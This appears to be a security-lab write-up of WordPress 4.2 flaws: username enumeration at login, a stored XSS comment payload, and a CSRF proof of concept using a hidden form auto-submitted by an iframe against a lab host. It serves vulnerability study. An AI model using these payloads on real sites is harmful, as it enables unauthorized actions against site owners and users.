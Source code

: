 # confrontational-spork

### 1. Enumeration
  - [x] Summary: 
    - Vulnerability types: Enumeration
    - Tested in version: Word Press 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: 
<img src='WordPress Username Enumeration.gif' title='WordPress Username Enumeration' width='' alt='' />
  - [x] Steps to recreate: Start at a WordPress Login page. This vulnerability allows anyone the ability to enumerate a list of valid user names on a WordPress site. Start with typing "admin" and a random password, soon after you are alerted that there is an existing admin account, ultimately making it easier to brute force that admin password. 
  - [ ] Affected source code:
    - [Link 1]
    
    
### 2. Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: inject java script code as a comment 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: 
<img src='XSS Exploit.gif' title='XSS Exploit' width='' alt='' />
  - [X] Steps to recreate: <br />
         -Leave a comment with the following content:<br />
         *\< b onmouseover="alert('This is just a vulnerability')">click me!\</b>*
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
### 3. Authenticated Cross Site Request Forgery
  - [X] Summary: Create a hidden form that can be submitted by another user when the page loads. Example below leads to infinite loop. Will lead you to page saying "dupilcate comment deleted; it looks as though you've already said that!".
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: 
<img src='CSRF Exploit.gif' title='XSS Exploit' width='' alt='' />
  - [X] Steps to recreate: <br />
        -create a new comment that includes the javascript code for a new form <br />
        -below that comment create an iframe that will run the form when it loads <br />
        -submit comment <br />
        -refresh page <br /> 
        
        Proof of Concept:
          <form action="http://wpdistillery.vm/wp-comments-post.php" method="post" id="commentform2" class="comment-form" novalidate>
            <input name="comment" type="hidden" value="hello there">
            <input type="hidden" name="comment_post_ID" value="3" id="comment_post_ID">
            <input type="hidden" name="comment_parent" id="comment_parent" value="0">
            <input type="hidden" id="_wp_unfiltered_html_comment_disabled" name="_wp_unfiltered_html_comment" value="8bfe964cea">
           </form>

          <iframe src=# onload=document.getElementById('commentform2').submit()> </iframe>
          
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
